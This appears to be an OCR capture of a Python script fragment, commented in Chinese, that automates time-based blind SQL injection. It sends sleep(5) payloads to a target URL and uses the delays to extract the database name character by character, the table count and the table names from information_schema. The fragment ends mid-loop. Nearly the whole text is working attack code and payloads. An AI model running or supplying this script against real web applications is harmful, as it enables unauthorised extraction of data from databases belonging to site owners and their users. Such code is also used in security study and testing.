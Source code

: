```python
		# 开始时间
		timeStart = time.time()
		# 开始访问
		res = conn.get(targetUrl.format(DBNameLen))
		# 结束时间
		timeEnd = time.time()
		# 判断时间差
		if timeEnd - timeStart >= 5:
			print("[+]数据库名长度:" + str(DBNameLen))
			break
	print("[-]开始获取数据库名")
	payload = "' and if(ascii(substr(database(),{0},1))={1},sleep(5),0)%23"
	targetUrl = url + payload
	# a表示substr()函数的截取起始位置
	for a in range(1, DBNameLen+1):
		# b表示33~127位ASCII中可显示字符
		for b in range(33, 128):
			timeStart = time.time()
			res = conn.get(targetUrl.format(a,b))
			timeEnd = time.time()
			if timeEnd - timeStart >= 5:
				DBName += chr(b)
				print("[-]"+ DBName)
				break


#获取数据库表函数
def GetDBTables(url, dbname):
	global DBTables
	#存放数据库表数量的变量
	DBTableCount = 0
	print("[-]开始获取{0}数据库表数量:".format(dbname))
	#获取数据库表数量的payload
	payload = "' and if((select count(table_name) from information_schema.tables where table_schema='{0}' )={1},sleep(5),0) %23"
	targetUrl = url + payload
	#开始遍历获取数据库表的数量
	for DBTableCount in range(1, 99):
		timeStart = time.time()
		res = conn.get(targetUrl.format(dbname, DBTableCount))
		timeEnd = time.time()
		if timeEnd - timeStart >= 5:
			print("[+]{0}数据库的表数量为:{1}".format(dbname, DBTableCount))
			break
	print("[-]开始获取{0}数据库的表".format(dbname))
	# 遍历表名时临时存放表名长度变量
	tableLen = 0
	# a表示当前正在获取表的索引
	for a in range(0,DBTableCount):
		print("[-]正在获取第{0}个表名".format(a+1))
		# 先获取当前表名的长度
		for tableLen in range(1, 99):
			payload = "' and if((select length(table_name) from information_schema.tables where table_schema='{0}' limit {1},1)={2},sleep(5),0) %23"
			targetUrl = url + payload
			timeStart = time.time()
			res = conn.get(targetUrl.format(dbname, a, tableLen))
			timeEnd = time.time()
			if timeEnd - timeStart >= 5:
				break
		# 开始获取表名
		# 临时存放当前表名的变量
		table = ""
```